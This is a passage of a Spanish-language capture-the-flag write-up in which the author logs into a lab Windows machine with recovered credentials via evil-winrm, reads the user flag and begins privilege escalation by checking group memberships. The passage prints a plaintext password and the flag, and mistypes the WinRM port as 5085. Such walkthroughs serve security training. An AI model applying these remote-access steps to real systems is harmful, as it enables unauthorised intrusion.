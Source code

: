 Obtenemos nuevas credenciales validas `mhope:4n0therD4y@n0th3r$` y como vimos que el puerto `5085` se encuentra abierto, podemos tratar de conectarnos con `evil-winrm`


```bash
❯ evil-winrm -i 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mhope\Documents> whoami
megabank\mhope
```

Una vez como el usuario `mhpe`, podemos dirigirnos a su directorio personal y visualizar la primera flag `user.txt`.

```bash
*Evil-WinRM* PS C:\Users\mhope\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\mhope\Desktop> type user.txt
603f2f5e0f8e217d541fb0572da2d55c
```

## ELEVACION DE PRIVILEGIOS [#](#elevacion-de-privilegios) {#elevacion-de-privilegios}

Si listamos los grupos a los cuales pertenece el usuario `mhope`, podemos notar que esta dentro del grupo `Azure admins`

```bash
*Evil-WinRM* PS C:\Users\mhope\Desktop> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ============================================
megabank\mhope S-1-5-21-391775091-850290835-3566037492-1601


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
```